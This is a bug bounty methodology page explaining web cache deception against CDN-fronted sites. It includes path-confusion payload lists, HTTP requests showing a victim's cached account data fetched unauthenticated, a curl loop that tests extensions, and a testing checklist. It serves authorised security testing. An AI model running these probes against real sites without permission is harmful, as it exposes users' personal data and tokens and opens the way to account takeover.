

> Source: https://bugbounty.info/Attack-Surface/Web/Infrastructure/Web-Cache-Deception

# Web Cache Deception

Web cache deception tricks a CDN or reverse proxy into caching an authenticated user's private response as a static asset. You send the victim a link to their own account page with a fake static extension appended  -  the server returns their data, the cache stores it as a "static file," and you retrieve it unauthenticated. Unlike cache poisoning (where you poison what the cache serves to everyone), cache deception targets one victim's data at a time. The impact is information disclosure, often including PII, tokens, and CSRF tokens that chain into account takeover.

## How Web Cache Deception Works



Two conditions must be true:

1. The application serves authenticated content for the manipulated path (doesn't 404)
2. The cache treats the response as cacheable based on the path/extension

## Path Confusion Techniques

The core trick is making the cache think the response is a static asset while the application still routes to the dynamic page.

### Static Extension Appending

```text
/account/settings/nonexistent.css
/account/profile/anything.js
/api/user/data/fake.png
/dashboard/test.woff2
/inbox/messages/style.css
```

The application ignores the appended filename (path normalization, catch-all routes, or framework behavior) and serves the authenticated page. The CDN sees `.css` and caches it.

### Path Delimiter Confusion

Different components treat different characters as path delimiters:

```text
/account/settings;.css          Semicolon  -  Java/Tomcat ignores after ;
/account/settings%00.css        Null byte  -  some parsers truncate
/account/settings%23.css        # (encoded)  -  fragment confusion
/account/settings/.css          Dot prefix  -  some normalize to /account/settings
/account/settings%3B.css        ; (encoded)
/account/settings%3F.css        ? (encoded)
```

The application routes based on `/account/settings` (before the delimiter). The CDN routes based on the full path and sees a `.css` extension.

### Path Normalization Differences

```text
/account/settings/..%2F..%2Fstatic/logo.png
/account/settings/%2e%2e/static/logo.png
/static/../account/settings
```

If the CDN normalizes paths differently than the application, you can make the CDN see a "static" path while the app resolves to a dynamic route.

## CDN-Specific Behaviors

| CDN | Default Caching Behavior | Key Notes |
| --- | --- | --- |
| Cloudflare | Caches by file extension (.css, .js, .png, etc.) | Respects Cache-Control by default, but extension-based caching can override |
| Akamai | Configurable  -  often extension-based | Path matching rules vary by configuration |
| Fastly | Respects Cache-Control headers strictly | Less likely to cache based on extension alone |
| CloudFront | Configurable behavior patterns | Default is to respect origin headers |
| Varnish | Custom VCL rules | Entirely configuration-dependent |

## Testing Methodology

### Step 1: Find an Authenticated Endpoint with Sensitive Data

Browse the target while authenticated. Identify pages that return PII, tokens, or account-specific data:

```text
/account/settings
/api/me
/profile
/dashboard
/inbox
/billing
```

### Step 2: Test Path Confusion

Append a static extension and check if the application still returns authenticated content:

```http
GET /account/settings/test.css HTTP/1.1
Host: target.com
Cookie: session=abc123
 
HTTP/1.1 200 OK
Content-Type: text/html       <- Still returns HTML, not CSS
X-Cache: MISS                 <- Not yet cached
 
... account settings data with PII ...
```

If you get a 200 with the same content, the application doesn't care about the appended path.

### Step 3: Verify Caching

Send the same request again and check for cache hit:

```http
GET /account/settings/test.css HTTP/1.1
Host: target.com
Cookie: session=abc123
 
HTTP/1.1 200 OK
X-Cache: HIT                  <- Cached!
Age: 5
CF-Cache-Status: HIT          <- Cloudflare-specific header
```

### Step 4: Retrieve Unauthenticated

Open a private/incognito browser (no cookies) and request the same URL:

```http
GET /account/settings/test.css HTTP/1.1
Host: target.com
 
HTTP/1.1 200 OK
X-Cache: HIT
 
... victim's account settings data ...
```

If you see the authenticated user's data  -  that's the vulnerability.

### Step 5: Document the Impact

What sensitive data is exposed? Common findings:

- Full name, email, phone number, address
- CSRF tokens (chain to CSRF attacks)
- API keys or session tokens (chain to account takeover)
- Internal user IDs (chain to IDOR)
- Billing information, subscription status

## Automation

```bash
# Test multiple extensions against an authenticated endpoint
for ext in css js png jpg gif woff2 svg ico; do
  echo "Testing .$ext:"
  curl -s -o /dev/null -w "%{http_code} %{size_download}" \
    -H "Cookie: session=abc123" \
    "https://target.com/account/settings/test.$ext"
  echo ""
done
 
# Check cache headers specifically
curl -v "https://target.com/account/settings/test.css" 2>&1 | grep -i "x-cache\|cf-cache\|age:\|cache-control"
```

## Checklist

- Identify authenticated endpoints that return sensitive data in the response body
- Test static extension appending: `.css`, `.js`, `.png`, `.jpg`, `.woff2`, `.svg`
- Test path delimiter confusion: `;.css`, `%00.css`, `%23.css`
- Test path normalization differences: `..%2F`, `%2e%2e`
- Check response headers for caching indicators: `X-Cache`, `CF-Cache-Status`, `Age`
- Verify the response is actually cached (request twice, check for HIT)
- Retrieve the cached response from an unauthenticated session
- Document what sensitive data is exposed in the cached response
- Test across multiple authenticated endpoints  -  not just one
- Check if the cache key includes cookies or `Vary: Cookie` header (which would prevent the attack)

## Public Reports

- Web cache deception on PayPal exposing account details ($4,000) - [HackerOne #733154](https://hackerone.com/reports/733154)
- Cache deception on Cloudflare-fronted application - [HackerOne #1491668](https://hackerone.com/reports/1491668)
- Web cache deception leaking CSRF tokens and PII - [HackerOne #1560749](https://hackerone.com/reports/1560749)
- Cache deception on e-commerce platform exposing billing data - [HackerOne #1273855](https://hackerone.com/reports/1273855)
- Path confusion leading to cached authenticated responses - [HackerOne #1334498](https://hackerone.com/reports/1334498)

## See Also

- [Cache Poisoning](../../../Attack-Surface/Web/Infrastructure/Cache-Poisoning)
- [Session Management](../../../Attack-Surface/Web/Authentication/Session-Management)
- [CSRF](../../../Attack-Surface/Web/Client-Side/CSRF)
